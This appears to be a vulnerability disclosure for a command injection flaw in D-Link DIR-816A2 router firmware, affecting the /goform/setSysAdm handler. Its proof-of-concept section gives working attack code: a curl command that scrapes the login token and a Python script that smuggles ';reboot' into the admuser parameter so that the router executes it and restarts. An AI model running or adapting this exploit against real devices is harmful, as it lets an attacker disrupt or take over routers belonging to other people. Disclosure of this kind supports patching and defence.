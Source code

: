 # DIR-816A2_FWv1.10CNB05_R1B011D88210.img Command Injection

## Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ： http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

Vulnerability occurs in /goform/setSysAdm.    The contents of the admuser and admpass parameters are executed as commands

![](img/2.png#center)

![](img/3.png#center)
## POC

Gets the token ID

```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Run poc

```python
import requests

tokenid = ''

url = 'http://192.168.0.1/goform/setSysAdm'

payload = ';reboot'

data = {
    'tokenid': tokenid,
    'admuser': payload

}

r = requests.post(url, data)
hunzi = r.text
print(hunzi)
```

The router will restart
